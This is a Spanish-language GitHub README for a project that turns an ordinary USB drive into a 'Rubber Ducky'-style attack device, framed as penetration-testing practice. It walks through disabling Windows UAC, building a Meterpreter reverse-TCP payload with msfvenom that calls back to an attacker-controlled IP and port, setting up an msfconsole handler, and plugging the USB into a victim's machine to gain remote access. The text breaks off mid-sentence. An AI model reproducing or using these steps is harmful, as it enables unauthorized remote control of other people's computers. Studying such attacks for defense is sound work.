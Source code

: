 # Rubber-Ducky-Simulation
In this project, we simulate a Rubber Ducky using a standard USB drive with a Python script and autorun functionality. This allows us to replicate its keystroke execution capabilities for automated penetration testing. The project emphasizes scripting skills and highlights the security risks of USB devices in cybersecurity.

## Instrucciones de Uso

Primero, descargaremos los archivos del repositorio y los copiaremos en cualquier USB. Luego, editaremos los archivos según nuestras necesidades, ajustando los tiempos que consideremos adecuados para la ejecución de la secuencia de desactivación del archivo `teclas.py`. 

Es importante tener en cuenta que debemos desactivar el Control de Cuentas de Usuario (UAC) en el sistema Windows de la siguiente manera:

1. Abrir el **Panel de control**.
2. Ir a **Cuentas de usuario**.
3. Seleccionar **Cambiar configuración de Control de cuentas de usuario**.
4. Mover el control deslizante a **Nunca notificar**.
5. Hacer clic en **Aceptar** y reiniciar el sistema si es necesario.

Esta configuración permitirá que el archivo `teclas.py` se ejecute sin restricciones de permisos.

![image](https://github.com/user-attachments/assets/59126bcb-c0c4-48ff-81c1-20f607277a46)

## Instrucciones de Uso (Continuación)

Una vez desactivadas las restricciones de UAC y editado el código con los tiempos a nuestra conveniencia, procederemos a convertir el código en un ejecutable utilizando **PyInstaller**. 

Luego, en nuestra máquina atacante, crearemos el payload con el siguiente comando:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IPAtacante LPORT=PuertoAtacante -f exe -o shell.exe
```
Una vez generado, copiaremos el payload en la USB.

Si deseamos que la USB se ejecute automáticamente en el sistema de la víctima, es necesario que la máquina tenga instalado apo_usb_autorun debido a las restricciones de windows. Si no es así, tendremos que hacer doble clic manualmente en el archivo ejecutable teclas.exe.

Después de esto, nos pondremos en escucha en nuestra IP y puerto asignados en el payload con el siguiente comando:

```bash
msfconsole -e use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST IPAtacante
set LPORT PuertoAtacante
run
```
Finalmente, insertaremos la USB en la máquina de la víctima y esperaremos el acceso remoto.


Recuerda reemplazar `IPAtacante` y `PuertoAtacante` con los valores correspondientes. También 
